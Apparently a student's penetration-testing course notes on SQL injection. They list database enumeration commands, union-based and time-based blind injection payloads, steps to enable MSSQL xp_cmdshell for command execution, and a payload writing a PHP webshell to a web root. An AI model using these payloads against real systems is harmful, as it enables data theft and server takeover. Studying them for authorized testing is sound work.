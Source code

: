 ## Section 1 SQL Theory and Databases
### Subsection 10.1.2 DB Types and Characteristics 
- To connect to a mysql database use 
```
mysql -u USERNAME -p'PASSWORD' -h IP -P 3306
```
- To get the version information use 
```
select version();
```
- To get information on the current database user for the ongoing session use
```
select system_user();
```
- To see the databases use 
```
show databases;
```
- To use a specific database 
```
use DB_NAME;
```
- To see the tables in the database
```
show tables;
```
- To connect to a Microsoft MySQL server (MSSQL) use impacket with 
```
impacket-mssqlclient USERNAME:PASSWORD@IP -windows-auth
```
- To get version information use 
```
SELECT @@version;
```
- To see all available databases use
```
SELECT name FROM sys.databases;
```
- The following are default databases in MSSQL
	- master
	- tempdb
	- model
	- msdb
- To see the tables from a database use
```
SELECT * FROM DB_NAME.information_schema.tables;
```
- To see all information from a DB table use
```
SELECT * FROM DB_NAME.dbo.TABLE_NAME;
```

## Section 2 Manual SQL Exploitation
### Subsection 10.2.2 Union-based Payloads
- The following statement prematurely terminates the SQL statement
```
' OR 1=1 -- //
```
- This can be upgraded to include a second arbitrary statement like 
```
' OR 1=1 in (select @@version) -- //
```
- The whole query would include a parameter such as the username if you were testing for injection in that field such as 
```
offsec' OR 1=1 in (select @@version) -- //
```
- The UNION query operator allows you to use an additional select statement
	- However it must contain the same amount of columns in each SELECT statement and the data types must match 
	- If the columns don't match use NULL to fill in the blank columns you don't need
- using the WHERE clause can help in specifying which information we want to see such as a specific password in the example below
```
' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
- You can order by column in order to enumerate the database to find all the column names if they are not visible by using the following 
	- The query fails when you have reached the last column and the column doesn't exist
	- Increase the number by 1 until it fails
```
' ORDER BY 1-- //
```
- You can also stop a SQL query by using 
```
%'
```
- To get database information in sqli
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
### Subsection 10.2.3 Blind SQL Injections
- Time based queries that rely on a pass/fail methodology
- For example the application will hang for three seconds if true and return false if false using the following query
```
offsec' AND IF (1=1,sleep(3),'false') -- //
```
## Section 10.3 Manual and Automated Code Execution
### Subsection 10.3.1 Manual Code Execution
- In a MSSQL server xp_cmdshell takes a string and passes it to the server for execution and returns the output as strings of text
	- This must be called with the execute keyword
	- This feature is disabled by default 
	- See below on how to install and use xp_cmdshell
```
EXECUTE sp_configure 'show advanced options', 1;
```
```
RECONFIGURE;
```
```
EXECUTE sp_configure 'xp_cmdshell', 1;
```
- Now any shell command can be executed like below
```
EXECUTE xp_cmdshell 'whoami';
```
- Example command to write a webshell to a file from mysql
```
' UNION SELECT "<?php system($_GET['cmd]);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)